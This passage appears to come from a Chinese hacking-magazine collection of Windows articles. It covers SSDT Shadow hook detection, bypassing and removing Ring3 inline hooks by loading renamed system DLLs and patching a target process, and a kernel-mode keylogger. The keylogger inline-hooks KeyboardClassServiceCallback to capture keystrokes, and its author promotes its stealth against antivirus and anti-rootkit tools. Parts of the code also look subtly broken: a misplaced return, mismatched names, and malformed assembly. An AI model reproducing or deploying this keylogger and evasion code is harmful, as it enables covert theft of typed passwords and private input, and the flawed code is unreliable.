if (!NT_SUCCESS(status)) {
    dprintf("ZwReadFile Error : 0x%X");
    goto __exit;
}

pAddr = (PULONG)PoolArea;

// 比较原始地址与当前的地址并输出调试
for (i = 0; i < ulCount; i++) {
    OrigAddress = *pAddr;
    // 指向原始地址（由于通常情况下 win32k.sys 总是被加载到文件头中的 ImageBase，
    // 所以不需要考虑文件中的函数指针的重定位）
    CurAddress = KeServiceDescriptorTableShadow[1].Base[i]; // 当前地址

    if (OrigAddress != CurAddress) {
        dprintf("ID:%-3d : OrigAddr : 0x%X : CurAddr : 0x%X==>Hooked!\n",
               i, OrigAddress, CurAddress);
    } else {
        dprintf("ID:%-3d : OrigAddr : 0x%X : CurAddr : 0x%X\n",
               i, OrigAddress, CurAddress);
    }

    pAddr++; // 指针指向下一个参数
}
```

```c
__exit:
if (PoolArea) {
    ExFreePool(PoolArea); // 释放空间
}
if (hFile) {
    ZwClose(hFile); // 关闭句柄
}
return status;
```

以上便是核心源码，希望大家能从中受益。最终效果如图 1 所示，我的测试系统为 Windows XP SP2。



图 1

#### 待解决的问题

比较现实的一个问题是：我们如何获取对应函数的名字，如果没有函数名字，实战中分析起来会比较麻烦。和 SSDT 一样，在不同版本的 NT 系统中，函数的数量会发生变化。若是 SSDT 的话，还可以从 ntdll.dll 的导出表里面获取。但是，Shadow 表中有的函数根本没导出，这给我们带来了一定的麻烦。关于获取函数名字的方法有很多讨论，有的解析符号文件，也有的用硬编码函数名表，很多 Anti-Rootkit 使用的方法是硬编码函数名表，就是为不同的系统准备几张函数名表，然后根据系统版本来确定使用哪张函数名表。这种方法有些空间换时间的味道。如果哪位读者有好的办法，也希望能和我们共同分享一下。

关于恢复原始地址，需要注意的问题还是 GDI 线程以及写保护等。显然，Sysinternals 的那几个修改 SSDT 的宏经过一点点修改就可以用来修改 SSDT Shadow 了，不过使用 Interlocked Exchange 会比较安全。

本文涉及到的工程在 DDK2K3 下编译通过，在 Windows XP SP2 下测试通过。

前置知识 Delphi  
关键词 编程，Ring3，inline hook

## 另类绕过 Ring3 下 inline hook



文／图 Hack214

看了 2008 年第 4 期的《霸王卸甲之击退 nProtect 保护体系》一文后，有所收获，感觉不管是针对 Ring3 还是 Ring0 级别的 hook，其实没有太多的方法来绕过，原因很简单，因为 API 函数的调用流程基本上已经固定了，我们没有太多的余地去改变它，文中的方法基本上能够满足通用的 unhook 效果。

现在的 hook 基本也就是修改函数入口的前 5 个字节为 jmp，也有通过修改 PE 导入表来进行 hook 的。不过有的程序不具有标准的 PE 文件格式，所以修改 PE 导入表的方法可能无法达到 hook 的目的，而且通过 GetProcAddress 函数动态调用 API 可以绕过导入表式的 hook，所以还是前者更常见。

修改函数入口的方法比较适用。该文的作者也提到了一个问题，就是我们并不知道到底 API 函数入口被修改了几个字节，若修改了大于 5 字节的空间，我们还是只还原前 5 字节，然后 jmp 到 API+5 的地方，那么程序可能会出错。针对这种情况，我们根本无法感知合适的跳转点，本文就来解决这个问题，使用一种新的方法来介绍怎样防御自己编写的程序不被 hook，以及解除被 hook 的进程两方面的问题。

## 预防 hook

我们先来解决预防自己的程序被 hook 的问题。上面已经提到了常用的两种 hook 方法，即修改导入表和修改 API 函数入口的方法，针对导入表的方式可以通过动态调用 API 函数来绕过。在编写程序时，若不想某些关键的 API 调用被拦截，可以通过动态调用来绕过。下面的代码就是一个例子。

```pascal
@msg:=GetProcAddress(GetModuleHandle('user32.dll'),'MessageBoxA');
msg(0,'test','test',0);
```

针对导入表式的 hook 绕过很简单，不再多讲，不过针对修改 API 入口的 hook 就没有那么简单了。似乎我们的程序无论如何都会跑到 API 函数入口去的，而这里说不定已经布好陷阱了。当然，我们也可以用 2008 年第 4 期文章的方法写一个通用的 unhook 函数，但这只能对付 jmp 模式的 hook，要想安全绕过对方的 hook，还得用一种更安全的方法才行，因为我们根本不知道 API 函数所在的内存被修改了几个字节，所以在这个地方周旋对我们很不利。若要成功调用 API，而又不被 hook，我们必须还原要调用的 API 函数的全部代码，这显然很困难，而且工作量也会很大。同时，我们调用 API 前还要备份函数的全部代码，这显然也不太合适。要解决这个问题，我们是否可以再加载一个系统的 DLL，如 kernel32.dll 到进程中，然后动态调用导出函数来调用 API 呢？实际测试后，我们会发现 kernel32.dll 没有重复加载，原因是系统不会重复加载某个 DLL，所谓的重复加载只是增加 DLL 计数罢了。若我们把 kernel32.dll 复制一份改名后再加载，系统是否就会不认得了呢？经过测试，系统果然成功加载了改名后的 kernel32.dll，到这里实际上就已经有结果了，绕过 Ring3 的 hook 已经变得很简单了。若我们把 user32.dll 改成 yan.dll 加载到某个进程，然后对比 yan.dll 与 user32.dll 分别在该进程中的基址以及 MessageBoxA 函数地址，可以得到如图 1 所示的结果，测试代码如下。

```pascal
bool:=copyfile('c:\windows\system32\user32.dll','c:\windows\system32\yan.dll',false);
if bool then
begin
  loadlibrary('yan.dll');
  module1:=getmodulehandle('yan.dll');
  module2:=getmodulehandle('user32.dll');
  listbox1.Items.Add('yan.dll基址为:'+inttostr(module1));
  listbox1.Items.Add('user32.dll的基址为:'+inttostr(module2));
  mpointer:=getprocaddress(module1,'MessageBoxA');
  mpointer1:=getprocaddress(module2,'MessageBoxA');
  listbox1.Items.Add('yan.dll中MessageBoxA地址:'+inttostr(integer(mpointer)));
  listbox1.Items.Add('user32.dll中MessageBoxA地址:'+inttostr(integer(mpointer1)));
  @msg:=mpointer;
  msg(0,'我是我','test',0);
end;
```



我们可以清晰地看到，MessageBoxA 函数的地址在内存中是不同的，而且这两个函数的基址也不同，这说明我们可以把 yan.dll 当成自己编写的 DLL 来加载并动态调用其 API 函数，因为没有改变系统 DLL 的内容，API 函数仍可以通过 ntdll.dll，然后进入内核，而且这样做的好处是可以彻底绕过 usermode 下的 hook。恶意程序只会修改 user32.dll 中的 API 函数入口点，不会感知到我们的 yan.dll 中函数的存在，这相当于我们改变了 API 函数的执行流程，不再像传统的使用 user32.dll 中的函数入口，而且在不同的进程中，加载改名后的系统 DLL，其基址都有所不同，再加上还可以调用完函数后用 FreeLibrary 把 yan.dll 释放掉，在需要时再加载到进程来调用，这就使得恶意程序在 Ring3 下根本无法 hook 我们的程序。不管恶意程序修改 user32.dll 中的函数入口多少个字节，对我们都没有影响，不过遗憾的是，我们得首先调用 CopyFile、GetModuleHandle、GetProcAddress 和 LoadLibrary 这 4 个 API 函数，它们都是 kernel32.dll 导出函数，不过一般程序不会对这 4 个 API 进行 hook。当然，当加载完成改名后的系统 DLL 后，可以通过 GetProcAddress 函数得到被改名的 kernel32.dll 的这 4 函数地址，之后就可以抛弃 kernel32.dll 了。

针对 ntdll.dll 中的 API 的 hook 情况，也可以像上面一样加载一个改名后的 ntdll.dll 动态调用 API，这样基本上就不会被 hook 了。由于水平有限，对 Ring0 下的 API 调用流程也不是了解，所以对 hook 的防御的讨论就止步于此了。

## 解除 hook

解除对一个进程的 hook 是一个重要的内容，因为别人编的程序不一定跟我们上面的方法一样，所以很容易被恶意程序 hook。针对解除 hook 的方法，2008 年第 4 期的文章已做了精彩的解说，不过也牵扯到修改了函数入口几个字节的问题，对于各种情况，或许需要更通用的方法来完成，而上面的防御方法，在解除 hook 上同样适用。

我们同样以测试 MessageBoxA 为例，先把 user32.dll 复制一份改名为 test.dll，通过 DLL 注入的方式把它注入被 hook 的进程，这时我们要做的就是通过 WriteProcessMemory 函数把被 hook 进程的 user32.dll 的 MessageBoxA 函数入口改成 jmp 到 test.dll 的 MessageBoxA 函数入口处，也就是对进程函数的再次拦截，思路很简单。那么 test.dll 的内存中 MessageBoxA 的函数地址怎么计算呢？它的地址也就是 test.dll 模块的基址加上 MessageBoxA 相对于模块基址的偏移。关于模块基址的取得，可以通过遍历进程的 MODULEENTRY32 结构的 hModule 成员来取得。MessageBoxA 相对于模块的偏移怎么取得呢？test.dll 和 user32.dll 本来就是同一个文件，所以加载到进程后，其偏移应该是相同的。下面我们写段代码来测试一下，结果如图 2 所示。

```pascal
m1base:=integer(GetProcAddress(GetModuleHandle('yan.dll'),'MessageBoxA'))- GetModuleHandle('yan.dll');

m2base:=integer(GetProcAddress(GetModuleHandle('user32.dll'),'MessageBoxA'))- GetModuleHandle('user32.dll');

listbox1.Items.Add('MessageBoxA在yan.dll中的偏移'+inttostr(m1base));

listbox1.Items.Add('MessageBoxA在user32.dll中的偏移'+inttostr(m2base));
```


经过测试可以看到函数的偏移是相同的，这个工作可以在我们自己的进程内完成，不管在哪个进程中，MessageBoxA 相对于模块基址的偏移都将是 263938。有了地址就可以改写函数入口了，不过这么一个看似简单的工作，实现起来却不容易，因为指令的寻址方式不同，对应的操作码也不同。根据我的测试，发现要实现一个 5 字节的 jmp 转移指令，对应的操作码应该是十六进制的 E9，我们先把操作码写入函数入口，在内存中操作数以小端方式存放，然后把要跳转的地址写入到函数入口最后一个字节的地方。要是把 test.dll 中的 MessageBoxA 地址写进去的话，一定会使目标进程崩溃，这是最易出错的。在系统中，jmp 的执行流程是：后面的操作数是相对于当前代码地址的偏移，而不是具体的线性地址。就是说若向前跳的话，这个数应该是负数，若向后跳的话，这个数应该是个正数，所以应该写入的是 test.dll 中 MessageBoxA 函数相对于当前要写 jmp 地址的偏移。这个偏移很好计算，由于 test.dll 的基址总会比 user32.dll 的基址要小，至于为什么要小，大家可以测试对比一下，所以这个偏移应该总是个负数。要是直接把 MessageBoxA(test.dll) 地址减去要写 jmp 处的地址的话，写内存时还是会出错，这时一定要有耐性去测试下才行，至于为什么出错，只是少加了一个 5 字节的问题，如图 3 所示。


图 3

这个 5 字节也应该算到偏移里面去，否则这个偏移值是错误的，会使程序 jmp 不到函数的真实入口。要解决这个问题，只要加一个 5 就可以了，因为我们测试的偏移一定是负数的，所以减去一个 5 以达到偏移增加的目的，之后把地址写进对方进程就可以了。以下是我的测试代码。

```pascal
procedure inline(pid:integer;baseaddress:integer);
var
  processhwnd:integer;
  RVA:integer;
  msgbase:pointer;
  jmp:byte;
  write:longword;
begin
  jmp:=233;
  processhwnd:=OpenProcess(PROCESS_ALL_ACCESS,false,pid);

  RVA:=GetModuleHandle('user32.dll');
  msgbase:=GetProcAddress(RVA,'MessageBoxA');
  RVA:=integer(msgbase)-RVA;
  baseaddress:=baseaddress+RVA;
  baseaddress:=baseaddress-integer(msgbase)-5;
  //实际函数偏移
  WriteProcessMemory(processhwnd,msgbase,@jmp,1,write);
  // 先写操作码部分，233 即 E9
  WriteProcessMemory(processhwnd,pointer(integer(msgbase)+1),@baseaddress,4,write);
  // 后写操作数
  CloseHandle(processhwnd);
  showmessage('成功完成');
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  process:PROCESSENTRY32;
  module:MODULEENTRY32;
  bo:longbool;
  hwnd:integer;
begin
```

```pascal
hwnd:=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
process.dwSize:=sizeof(process);
bo:=Process32First(hwnd,process);
while bo do
begin
  if pos('test',process.szExeFile)<>0 then
  begin
    hwnd:=CreateToolhelp32Snapshot(TH32CS_SNAPMODULE,process.th32ProcessID);
    module.dwSize:=sizeof(module);
    bo:=Module32First(hwnd,module);
    while bo do
    begin
      if pos('yan.dll',module.szModule)<>0 then
      begin
        inline(process.th32ProcessID,module.hModule);
      end;
      bo:=Module32Next(hwnd,module);
    end;
  end;
  bo:=Process32Next(hwnd,process);
end;
end;
```

经过测试，这段代码达到了预期的效果。关于 2008 年第 4 期文章的问题也得到了解决。大家可以把 user32.dll 中的函数从开始到结尾都改成 jmp 到 test.dll 中对应函数的偏移，也是没有问题的，因为我们有一片干净的代码。下面再看一下 OD 反汇编的结果，查看内存是否已被改写，如图 4 所示，可以看到内存已经更改，而且跳转地址很正确。


图 4

文章到此就算结束了，本文的所有测试都只局限在 Ring3 下，希望能对大家在绕过 hook 方面有所帮助。

### 前置知识：VC

关键词：编程、键盘记录、内核 hook

### 实现键盘记录

文/王斌

键盘记录的方法有很多，Ring3 下一一般有调用 CreateRemoteThread 函数远程 DLL 或代码注入，调用 SetWindowsHookEx 安装键盘钩子记录按键、GetKeyboardState、RawInputThread 或 BlockInput() API；而在 Ring0 下有 kbfiltr、IDT Hook、文件补丁技术、直接 IO 端口，或者修改 DDK 中自带的 kbfilter 的键盘（Port Driver）过滤驱动。

不过这些方法都有这样或那样的缺陷，比如 CreateRemoteThread 注入代码。由于现在远程线程技术的泛滥，连刚入门的 Windows 编程爱好者都知道用这招实现诸多黑客手段，自然杀软也毫不示弱，基本上再调用 CreateRemoteThread 等于脸上贴上“我是木马”的标签。SetWindowsHookEx 也面对同样的命运，很多杀软已经有所防范。可以说，在 Ring3 层面，键盘记录很难在杀软下有所作为了。如果环境是 Ring0，则可选择的方法有很多，键盘过滤驱动就是个不错的主意，但需要考虑比较多的东西，而且兼容性也是个问题。引用 sinister 的话来说，“首先需要 attach 到 \Device\KeyboardClass0 设备上再进行按键过滤，但如果仅 attach 这个设备的话，会存在很多问题，就是只能过滤到 PS/2 键盘，对于使用 USB 键盘的机器会毫无作用。大家可能会想到，从 KeyboardClass0 一直到 N 都 attach 不就可以了吗？总有一个会是 USB 键盘设备。经过实践这是不可行的，只要是 USB 键盘设备的话，使用 IoGetDeviceObjectPointer() 函数从设备名得到设备对象都会失败，我还曾尝试使用 USB 键盘设备名来转换，还是一样失败。还有一个问题就是，USB 键盘设备不是都有名称的，即使有名称也都是动态生成的。”

所以我们这次要采用目前最流行的 hook 技术，当然是内核之下的 hook 了，不然就没有意义了。经过对 DDK 里面的代码进行分析，发现有很多地方可以 hook，比如位于 kbfiltr.c 下的 KbFilter_InternIoCtl 函数。这个键盘过滤驱动基本上对所有的 IRP 都通过它传递到下层的驱动处理，控制码 IOCTL_INTERNAL_KEYBOARD_CONNECT 注册了一个回调函数 KbFilter_ServiceCallback，在这个函数中实现了按键扫描码的一些处理。如果我们在这安装一个钩子的话，就能截获键盘的按键了。

不过在写这个程序的时候，我偶然发现 DDK 中 kbdclass 文件夹下的 kbdclass.c 里面还有不少好东西，其中有个更为底层的回调函数 KeyboardClassServiceCallback，它是在 i8042prt 和 hidkbd 这两个驱动之上的，所以直接调用它的 KeyboardClassServiceCallback() 是能对 PS/2 和 USB 同时生效的。也就是说，在这安装钩子的话，我们的截获会更加有效！下面看看如何实现 KeyboardClassServiceCallback 的内联钩子。

在这一步我遇到了一些困难，KeyboardClassServiceCallback 是不被驱动 kbdclass 导出的，这就需要我们用一些“非常”手段来找到这个函数。一般情况下，我选择硬编码方式，虽然可能通用性不强，但如果我们搜集各个 Windows 的 SP 硬编码，还是能克服这个毛病的。在我的系统上，对 kbdclass.sys 用 IDA 进行反汇编分析，得到如下代码：

```c
; DWORD *__stdcall KeyboardClassServiceCallback_1119A(PDEVICE_OBJECT DeviceObject, PKEYBOARD_INPUT_DATA InputDataStart, PKEYBOARD_INPUT_DATA InputDataEnd, PULONG InputDataConsumed)
.text:0001119A KeyboardClassServiceCallback_1119A proc near
.text:0001119A var_8 = dword ptr -8
.text:0001119A var_4 = dword ptr -4
.text:0001119A DeviceObject = dword ptr 8
.text:0001119A InputDataStart = dword ptr 0Ch
.text:0001119A InputDataEnd = dword ptr 10h
.text:0001119A InputDataConsumed = dword ptr 14h
.text:0001119A 8B FF mov edi, edi
.text:0001119C 55 push ebp
.text:0001119D 8B EC mov ebp, esp
.text:0001119F 51 push ecx
.text:000111A0 51 push ecx
.text:000111A1 8B 45 08 mov eax, [ebp+DeviceObject]
.text:000111A4 83 65 08 00 and [ebp+DeviceObject], 0
```

```c
// KbdInit();
g_kbdclass_base = (ULONG)GetModlueBaseAdress("kbdclass.sys", 0);
DbgPrint("kbdclass.sys: 0x%08lx\n", (PVOID)g_kbdclass_base);
if (0 == g_kbdclass_base) {
    DbgPrint("ERROR: g_kbdclass_base == 0\n");
    return STATUS_SUCCESS;
}
curAddr = g_kbdclass_base;
for (i = curAddr; i <= curAddr + 0x2000; i++) {
    if (*((ULONG *)i) == code1_sp2) {
        if (*((ULONG *)(i + 4)) == code2_sp2) {
            if (*((ULONG *)(i + 8)) == code3_sp2) {
                if (*((ULONG *)(i + 12)) == code4_sp2) {
                    g_lpKbdServiceCallback = i;
                    break;
                }
            }
        }
    }
}
Addr_OldFunction = (ULONG)g_lpKbdServiceCallback;
DbgPrint("KeyboardClassServiceCallback: 0x%08lx\n", (PVOID)g_lpKbdServiceCallback);
return Addr_OldFunction;
```

可以很容易地找到 KeyboardClassServiceCallback 的特征码，就是函数前面的几个字节：8B FF 55 8B EC 51 51 8B 45 08……因此，我们就可以使用上面的代码来搜索 KeyboardClassServiceCallback。

之后再把上面的代码包装到 `ULONG FindOldFunctionAddress()` 中，这段代码有个地方要注意一下，就是怎么得到 kbdclass.sys 的基址。这里我使用 sudami 的代码中现成的 GetModlueBaseAdress 函数。经过分析，明白了其中的道理：使用内核中的 ZwQuerySystemInformation 函数的 SystemModuleInformation 功能号对当前系统模块进行遍历查询。

```c
NTSTATUS status = STATUS_SUCCESS;
UNICODE_STRING ustrLinkName;
UNICODE_STRING ustrDevName;
PDEVICE_OBJECT pDevObj;
ULONG i, curAddr;
PUCHAR FileContent;
DWORD dwRet, dwSize;
PVOID pTmp;
LARGE_INTEGER timeout;
KEVENT kEvent;
ULONG g_kbdclass_base;
ULONG g_lpKbdServiceCallback;
PDEVICE_OBJECT g_kbDeviceObject = NULL;
KEYBOARD_INPUT_DATA kid;
ULONG Addr_OldFunction = 0;
ULONG code1_sp2 = 0x8b55ff8b, code2_sp2 = 0x8b51ec, code3_sp2 = 0x65830845, code4_sp2 = 0x8b530008;
```

```c
PVOID GetModlueBaseAdress(
    char* ModlueName,
    BOOL bKernelBase)
{
    ULONG size, index;
    PULONG buf;
    NTSTATUS status;
    PSYSTEM_MODULE_INFORMATION modules;
    PVOID driverAddress = 0;
    ZwQuerySystemInformation(SystemModuleInformation, &size, 0, &size);
    if (NULL == (buf = (PULONG)ExAllocatePool(PagedPool, size))) {
        DbgPrint("failed alloc memory failed\n");
    }

    return 0;
    status = ZwQuerySystemInformation(SystemModuleInformation, buf, size, 0);
    if (!NT_SUCCESS(status)) {
        DbgPrint("failed query\n");
        return 0;
    }
    module = (PSYSTEM_MODULE_INFORMATION)((PULONG)buf + 1);

    // 系统模块基址
    if (TRUE == bKernelBase) {
        driverAddress = module[0].Base;
        DbgPrint("KernelBase:%x\n", driverAddress);
        goto _x;
    }

    // 其他模块基址
    for (index = 0; index < *buf; index++) {
        if (_stricmp(module[index].ImageName + module[index].ModuleNameOffset, ModuleName) == 0) {
            driverAddress = module[index].Base;
            DbgPrint("Module found at:%x\n", driverAddress);
            goto _x;
        }
    }

_x:
    ExFreePool(buf);
    return driverAddress;
}
```

下面就是大家都非常熟悉的 Inline hook 了，这里我使用的是一段现成代码，结构非常清晰，而且克服了很多其他代码的一些缺点，这里给大家讲解一下。所有的 hook 全部在 HookOldFunction 函数中实现。

```c
VOID HookOldFunction()
{
    KIRQL oldIrql;
    if (g_OldFunction == 0) {
        DbgPrint("OldFunction == NULL\n");
        return;
    }

    DbgPrint("OldFunction 的地址[0x%08x]\n", (ULONG)g_OldFunction);

    // 保存原函数的前字节内容
    RtlCopyMemory(g_OrigCode, (BYTE*)g_OldFunction, 5);

    *(ULONG*)(g_HookCode + 1) = (ULONG)fake_OldFunction - (ULONG)g_OldFunction - 5;

    // 禁止系统写保护，提升IRQL到DPC
    WPOFF();
    oldIrql = KeRaiseIrqlToDpcLevel();

    RtlCopyMemory((BYTE*)g_OldFunction, g_HookCode, 5);
    *((ULONG*)(jmp_orig_code + 1)) = (ULONG)((BYTE*)g_OldFunction + 5);

    RtlCopyMemory((BYTE*)Proxy_OldFunction, g_OrigCode, 5);
    // 修改 Proxy_OldFunction 函数头
    RtlCopyMemory((BYTE*)Proxy_OldFunction + 5, jmp_orig_code, 7);

    // 恢复写保护，降低IRQL
    KeLowerIrql(oldIrql);
    WPON();

    g_bHooked = TRUE;
}
```

首先用函数 WPOFF 禁用写保护，KeRaiseIrqlToDpcLevel 提升当前 IRQL，这两步是必须的。有人要问了，既然已经禁用写保护，为什么还要提升 IRQL 呢？其实这是在防止多核中进行写入操作时候突然调用原函数（也就是 KeyboardClassServiceCallback）。然后保存原函数的前字节内容 `RtlCopyMemory((BYTE*)Proxy_OldFunction, g_OrigCode, 5);` 和 `RtlCopyMemory((BYTE*)Proxy_OldFunction + 5, jmp_orig_code, 7);` 这两句即是修改函数的执行流程到我们的代理函数 Proxy_OldFunction 中。下面再看看 Proxy_OldFunction 的实现。

```c
VOID Proxy_OldFunction(
    PDEVICE_OBJECT DeviceObject,
    PKEYBOARD_INPUT_DATA InputDataStart,
    PKEYBOARD_INPUT_DATA InputDataEnd,
    PULONG InputDataConsumed
)
{
    __asm {
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90 // 前字节实现原函数的头字节功能
        _emit 0x90 // 这个填充jmp
        _emit 0x90
        _emit 0x90
        _emit 0x90
        _emit 0x90 // 这字节保存原函数+5处的地址
        _emit 0x90
        _emit 0x90 // 因为是长转移，所以必须是0x0080
    }
}
```

这里使用了两段跳的方法。先从原函数跳到 Proxy_OldFunction 函数中，然后再跳转到 fake_OldFunction 函数里。我看了很多 hook 方法也不尽相同。很多人直接跳转到一个 fake_OldFunction 里，然后执行完 hook 的功能后再跳转到原函数。这样是可以，但比较麻烦，而我给出的 hook 方法只需要修改 fake_OldFunction 即可。他的比如执行原函数被 jmp 覆盖的指令等，全交给 Proxy_OldFunction。不过大家在修改这段代码 hook 其他的函数时要注意，被 hook 的函数的前五个字节必须是若干条完整的指令，而不能产生指令碎屑。现在进入 fake_OldFunction。

```c
__declspec(naked)
VOID fake_OldFunction(
    PDEVICE_OBJECT DeviceObject,
    PKEYBOARD_INPUT_DATA InputDataStart,
    PKEYBOARD_INPUT_DATA InputDataEnd,
    PULONG InputDataConsumed)
{
    __asm {
        pusheax
        pushebx
        pushecx
        pushesi
        xor esi, esi
        mov eax, [0xAAAAAAAA];
        mov ebx, [esp+0x18]
        mov cl, byte ptr [ebx+2]; // 键盘码
        mov ch, byte ptr [eax];   // 得到当前位置->ch
        cmp ch, MAXBUF
        jnz NotLastPlace
        mov ch, 0x0;
NotLastPlace:
        inc ch
        movzx si, ch
        mov byte ptr [eax], ch
        mov byte ptr [eax+esi], cl
        pop esi
        pop ecx
        pop ebx
        pop eax
        jmp Proxy_OldFunction;
    }
}
```

这里要注意一下，这几个函数前都加了 `__declspec(naked)` 修饰符，表示编译器在此函数中不产生堆栈帧的代码。什么叫堆栈帧呢？随便查看一个 API，前面一般是 `push ebp; mov ebp, esp`，这就是一个堆栈帧，用来保存函数返回地址等。我们的 hook 函数 fake_OldFunction 是紧接着原函数执行的，建立堆栈帧的工作已经做完了，即是前面 Proxy_OldFunction 执行原函数前 5 个字节的目的。到 fake_OldFunction 里当然不用再执行了。现在关注 fake_OldFunction 的代码，可以发现里面有个 `0xAAAAAAAA`，其实这是为了防止在高 IRQL 中不允许使用分页内存的办法，在驱动入口的 ChangeFake_Function 里，我申请了一段非分页内存，并动态修改了 `0xAAAAAAAA` 为非分页内存的地址。fake_OldFunction 里剩下的汇编代码即是把拦截到的键盘扫描码（一个字节）保存到非分页内存中去。系统在调用 KeyboardClassServiceCallback 的时候，键盘扫描码会保存在 `PKEYBOARD_INPUT_DATA InputDataStart` 参数中。我们再看看 PKEYBOARD_INPUT_DATA 类型的实现。

```c
typedef struct _KEYBOARD_INPUT_DATA {
    USHORT UnitId;
    USHORT MakeCode;
    USHORT Flags;
    USHORT Reserved;
    ULONG ExtraInformation;
} KEYBOARD_INPUT_DATA, *PKEYBOARD_INPUT_DATA;
```

其中的 MakeCode 即保存了键盘扫描码。在这里，我用 `mov ebx, [esp+0x18]` 和 `mov cl, byte ptr [ebx+2];` 两句把扫描码保存在 cl 中。

注意，我用非分页内存的第一个字节作为标志位，存储当前保存到的位置，下次 hook 函数拦截到的码便不会覆盖前一个值了。这样，一个完整的键盘记录驱动便完成了。如果想进一步应用，可以在驱动入口处添加 IRP_MJ_DEVICE_CONTROL 的派遣例程，在里面读取非分页内存，实现 Ring3 到 Ring0 的通信。

最后总结一下。本文首先回顾了各种键盘记录的方法，从 Ring3 到 Ring0，以及各种方法的优缺点，并给出了另一种通过 hook KeyboardClassServiceCallback 实现键盘记录的方法。这种方法网上也有人提过，好处很多，首先是不容易被检测到（当然，如果大家知道这个地方可能存在 hook 的话，那另当别论，不过我们可以换个地方，甚至在 KeyboardClassServiceCallback 的更深处进行 hook），而且兼容性好，哪种接口的键盘都可以。其实可以进行 hook 的地方非常多，通读 kbdclass.c 里面的代码，发现几乎都可以用来 hook，我们甚至可以 hook KbdSendConnectRequest，直接把 KeyboardClassServiceCallback 替换成我们的程序，让检测程序 Antirootkit 等防不胜防。

## Ring0下的IAT与EAT Hook

文/pixiebox

前置知识：VC  
关键词：编程，IAT，EAT

